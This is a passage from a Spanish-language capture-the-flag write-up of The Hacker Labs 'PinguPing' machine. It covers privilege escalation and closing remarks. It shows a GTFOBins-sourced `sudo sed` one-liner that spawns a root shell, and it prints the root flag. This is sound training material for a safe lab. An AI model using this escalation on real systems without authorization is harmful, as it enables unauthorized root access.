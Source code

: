 Obervamos que se puede ejecutar `/usr/bin/sed` sin permisos de root. Ahora tenemos que buscar algún binario con este comando que nos de los privilegios de root.

Para esto, nos ayudaremos de la siempre confiable [Gtfobins](https://gtfobins.github.io/gtfobins/node/ "gtfobins"), donde buscaremos lo que necesitamos en su amplio catálogo de binarios. Este excelente sitio web nos proporciona una variedad de binarios útiles para nuestras necesidades.

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/PinguPing/9.jpg?raw=true "gtfobins")

Listo, con esto podremos probar si nos proporciona lo privilegios de root.

```bash
secretote@pinguping:~$ sudo sed -n '1e exec sh 1>&0' /etc/hosts
# pwd
/home/secretote
# whoami
root
```

Excelente, somos root.

### 5.2 Flag de root

Ahora que somos root buscamos las flag correspondentes para culminar este reto.

```bash
# cat root.txt	
3e3fe08f2c9be56153e6e470199787c5
# 
```

`3e3fe08f2c9be56153e6e470199787c5`

## 6. Recomendaciones y Conclusiones

* Es importante siempre avanzar parte por parte ante lo que vayas descubriendo y pensar qué técnica puedes aplicar ante lo que vas encontrando. Para ello, es siempre fundamental aprender diversos métodos de ataque y su funcionamiento, para tener más ángulos de cómo afrontar el problema y darle la solución más efectiva.

* Siempre el agradecimiento a [The Hacker Labs](https://thehackerslabs.com "the hacker labs") por el esfuerzo que hacen en la plataforma para que la comunidad pueda seguir aprendiendo en escenarios seguros.

Saludos!

**!Hack the life!**